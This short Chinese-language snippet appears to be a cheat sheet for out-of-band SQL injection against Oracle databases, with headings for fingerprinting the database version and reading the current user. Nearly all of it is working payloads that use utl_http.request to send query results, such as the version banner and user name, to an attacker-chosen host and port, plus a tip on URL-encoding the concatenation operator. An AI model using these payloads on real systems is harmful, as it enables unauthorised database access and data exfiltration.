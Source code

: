 - 查询数据库版本指纹



```
and utl_http.request('http://172.16.12.172:8888/'%7C%7C'~'%7C%7C(select banner from sys.v_$version where rownum=1))=1--
```

- 查当前用户名



```
id=1 and UTL_HTTP.request('http://ip:监听端口/'||(select user from dual)=1--
id=1 and utl_http.request('http://域名或者ip:端口/'||(注入的语句))=1 --  //注意||转码%7C%7C
```

> **注意：|| 转码%7C%7C**